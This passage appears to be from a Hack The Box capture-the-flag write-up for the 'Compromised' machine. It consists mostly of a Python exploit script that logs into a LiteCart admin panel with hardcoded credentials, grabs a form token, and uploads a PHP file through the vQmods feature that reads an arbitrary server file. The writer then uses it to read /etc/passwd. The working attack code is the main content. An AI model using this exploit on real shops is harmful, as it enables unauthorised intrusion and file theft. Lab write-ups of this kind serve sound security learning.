 ```python
if(not args.u or not args.t or not args.p):
    pass # sys.exit("-h for help")
url = "http://compromised.htb/shop/admin/" # args.t
user = 'admin' # args.u
password = 'theNextGenSt0r3!~' # args.p
filename = args.f

br = mechanize.Browser()
cookiejar = cookielib.LWPCookieJar()
br.set_cookiejar( cookiejar )
br.set_handle_equiv( True )
br.set_handle_redirect( True )
br.set_handle_referer( True )
br.set_handle_robots( False )
br.addheaders = [ ( 'User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1' ) ]
response = br.open(url)
br.select_form(name="login_form")
br["username"] = user
br["password"] = password
res = br.submit()
response = br.open(url + "?app=vqmods&doc=vqmods")
one=""
for form in br.forms():
    one= str(form).split("(")
    one= one[1].split("=")
    one= one[1].split(")")
    one = one[0]
cookies = br._ua_handlers['_cookies'].cookiejar
cookie_dict = {}
for c in cookies:
    cookie_dict[c.name] = c.value
rand = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(5))
files = {
        'vqmod': (rand + ".php", "<?php echo file_get_contents('" + filename + "'); ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }
response = requests.post(url + "?app=vqmods&doc=vqmods", files=files, cookies=cookie_dict)
r = requests.get(url + "../vqmod/xml/" + rand + ".php?c=id")
if r.status_code == 200:
    #print "Shell => " + url + "../vqmod/xml/" + rand + ".php?c=id"
    print r.content
else:
    print "Sorry something went wrong"
```

Let's see if we can "read" `/etc/passwd`.

{% include image.html image_alt="3d664d34.png" image_src="/93ee34f6-74ca-497c-9631-f0f65044a19b/3d664d34.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/276
[2]: https://www.hackthebox.eu/home/users/profile/103781
[3]: https://www.hackthebox.eu/